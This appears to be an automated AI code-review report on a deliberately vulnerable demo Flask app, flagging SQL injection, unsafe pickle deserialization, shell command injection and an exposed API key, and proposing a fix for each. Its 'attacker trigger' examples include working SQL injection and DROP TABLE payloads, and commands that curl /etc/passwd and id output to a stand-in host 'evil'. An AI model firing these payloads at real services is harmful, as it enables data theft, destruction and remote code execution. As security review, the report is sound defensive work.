

<!-- torii-review pr=bench-f70 run=local -->
All three preparatory checks complete. Memory search confirms all four TP signatures at high confidence (0.88+ reconsolidated). Doctor/status all green. Now producing the review.

---

**Verdict:** REQUEST CHANGES
**Score:** 0/100
**Review effort:** 2/5 (four clear-cut sinks, no ambiguity)

> ⚠️ **Severity calibration (F50 / H20):** Review self-reported a **test gap** while verdict was APPROVE (`test_gap_non_approve` · match=`missing_tests:tests & risk`). Torii upgrades to **REQUEST CHANGES** — missing tests for new production behavior are blocking, not Suggestions. Signal: _No tests_

### Summary
This file contains four textbook critical vulnerabilities, each independently block-worthy. All are confirmed by F70 true-positive signatures and archival reconsolidation. No safe code paths exist — every endpoint is a confirmed sink.

### Architecture diagram
<!-- torii-mermaid -->

_Auto-generated from 0 changed file(s) (F57). Edges between groups are adjacency, not proven runtime dependencies._



### Blocking
1. **SQL Injection** — `demo/insecure/app.py:15`
2. **Insecure Deserialization** — `demo/insecure/app.py:22`
3. **Command Injection** — `demo/insecure/app.py:28`
4. **Credential Exposure** — `demo/insecure/app.py:33`

### Security audit
| Issue | CWE | Path:line | Severity |
|---|---|---|---|
| SQL Injection | CWE-89 | `demo/insecure/app.py:15` | Critical |
| Unsafe Deserialization | CWE-502 | `demo/insecure/app.py:22` | Critical |
| Command Injection | CWE-78 | `demo/insecure/app.py:28` | Critical |
| Secret Exposure | CWE-200, CWE-798 | `demo/insecure/app.py:33` | High |

### Key findings
**1. SQL Injection — `demo/insecure/app.py:15`**

```python
cur.execute(f"SELECT * FROM items WHERE name = '{q}'")
```

User-controlled `q` parameter is interpolated directly into SQL via f-string with no sanitization, parameterization, or escaping.

Attacker trigger: `GET /search?q=' UNION SELECT 1,2,3 FROM users--` enumerates arbitrary tables. `GET /search?q='; DROP TABLE items;--` performs destructive writes. The SQLite connection has full write access to `app.db`.

Fix: Use parameterized queries — `cur.execute("SELECT * FROM items WHERE name = ?", (q,))`.

**2. Unsafe Deserialization — `demo/insecure/app.py:22`**

```python
pickle.loads(data)
```

`pickle.loads` on attacker-controlled input achieves arbitrary code execution during deserialization — no exploit chain needed, `__reduce__` payloads execute directly.

Attacker trigger: `POST /load` with a pickle payload that calls `os.system("curl http://evil/$(cat /etc/passwd)")`. A single request yields RCE at the Flask process privilege level.

Fix: Never unpickle untrusted data. Use JSON (`json.loads`) or a safe serialization format.

**3. Command Injection — `demo/insecure/app.py:28`**

```python
subprocess.check_output(cmd, shell=True)
```

`shell=True` passes the string to `/bin/sh -c`, enabling shell metacharacter injection (`;`, `|`, `&&`, backticks, `$()`).

Attacker trigger: `GET /run?cmd=echo%20hi;%20cat%20/etc/passwd` chains a benign command with arbitrary shell execution. `GET /run?cmd=$(curl%20http://evil/$(id))` exfiltrates without visible output.

Fix: Use `shell=False` with a list — `subprocess.check_output(["echo", "hi"])`. If dynamic commands are required, validate against a strict allowlist.

**4. Credential Exposure — `demo/insecure/app.py:33`**

```python
return {"key": os.environ.get("OPENROUTER_API_KEY", "missing")}
```

Exposes the `OPENROUTER_API_KEY` environment variable as a plaintext JSON response on an unauthenticated endpoint.

Attacker trigger: `GET /secret` returns the live API key. If `OPENROUTER_API_KEY` is set in the deployment environment, the key leaks immediately. Even when unset, the endpoint confirms the credential name, aiding targeted attacks.

Fix: Remove this endpoint. Never expose secrets or environment variables via HTTP responses.

### Suggested test plan
<!-- torii-testplan -->

_Auto-generated (F61, deterministic). 0 case(s) (0 P0, 0 P1); 0 prod / 0 test file(s); 0 symbol(s) from diff. Authors: treat P0 as merge-blocking coverage gaps; model may refine._

None — no actionable test scenarios derived from files/diff.

### Tests & risk
- **No tests present.** The file has no accompanying test suite. Given all four endpoints are confirmed sinks, missing tests mean there is no safety net against regression.
- **Risk:** If deployed, any of the four findings yields remote code execution or credential theft with a single unauthenticated HTTP request. No exploit chaining required.

### What I checked
- Full file content: `demo/insecure/app.py` (4 endpoints, 36 lines)
- F70 TP signature store — all four sinks confirmed (`sqli-search`, `pickle-load`, `cmdi-run`, `secret-exposure`) with reconsolidation scores 0.88+
- Archival memory graph — no superseded findings, no FP patterns to suppress
- Memory recall — no previous dismissals on these paths
- Product CLI doctor/status — all checks green, no recovery gaps

### Multi-lens checklist (security pack)

| Lens | Status | Note |
|---|---|---|
| Injection | concern | SQLi line 15, CMDi line 28 |
| AuthN/AuthZ | concern | No auth on any endpoint; `/secret` leaks creds to unauthenticated callers |
| Secrets | concern | `OPENROUTER_API_KEY` exposed at line 33 |
| XSS/CSRF | n/a | No HTML rendering surface |
| SSRF | n/a | No outbound requests |
| Path traversal | n/a | No file path construction |
| Unsafe deserialize | concern | `pickle.loads` at line 22 |
| Crypto misuse | n/a | No crypto operations |
| Supply-chain | n/a | No new dependencies in this diff |

— Torii Gate

---
*Torii · Hermes Agent · OpenRouter · memory-backed review*
*Cost / usage: model=`deepseek/deepseek-v4-pro` · ~$0.0074 (estimated) · 28k tokens · 3 API calls*
